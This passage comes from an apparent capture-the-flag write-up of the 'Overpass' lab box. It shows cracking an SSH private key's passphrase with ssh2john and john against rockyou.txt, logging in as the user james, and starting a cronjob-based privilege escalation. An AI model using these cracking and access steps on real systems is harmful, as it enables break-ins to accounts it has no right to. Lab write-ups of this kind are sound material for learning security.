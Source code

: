 ```console
┌──(kali㉿kali)-[/tmp/dead]
└─$ /usr/share/john/ssh2john.py id_rsa > id_rsa.john

┌──(kali㉿kali)-[/tmp/dead]
└─$ john --wordlist=rockyou.txt --format=SSH id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
JAMES_PASSWORD          (id_rsa)
1g 0:00:00:03 DONE (2021-09-05 22:40) 0.2617g/s 3754Kp/s 3754Kc/s 3754KC/sa6_123..*7¡Vamos!
Session completed
```
john successfully finds the passphrase for the key (replaced here with JAMES_PASSWORD). We can now use the key to connect to the machine, making sure to set the correct permissions on the `id_rsa` file: 

```console
┌──(kali㉿kali)-[/tmp/dead]
└─$ chmod 600 id_rsa

┌──(kali㉿kali)-[/tmp/dead]
└─$ ssh james@$IP -i id_rsa
The authenticity of host '10.10.31.26 (10.10.31.26)' can't be established.
ECDSA key fingerprint is SHA256:4P0PNh/u8bKjshfc6DBYwWnjk1Txh5laY/WbVPrCUdY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.31.26' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 

...snip...

james@overpass-prod:~$ id
uid=1001(james) gid=1001(james) groups=1001(james)
```
The user flag is at /home/james/user.txt.

## 6: Privesc : cronjob, hosts

We're going to skip the basic privesc go-tos (user discovery, service discovery, process discovery, cronjobs, SUIDs, linpeas etc.) to follow the "narrative" of the box, which gives us two more paths to check : the `.overpass` file location discovered in the application source code, and the `todo.txt` file at `/home/james`.

We don't get much luck out of the `.overpass` file at `/home/james` - it contains his ROT47 encoded password, but he is not included in the box's sudoers list.

The `todo.txt` file includes a reference to an automated build script that is failing to update the builds on the website (presumably the `buildscript.sh` discovered at `/downloads/`). If the build script is expected to update the builds on the site, it is safe to assume that it is running on the box, and if it is automated, we can also assume that it is being run by a cronjob. Sure enough, inspecting `/etc/crontab` reveals the job:
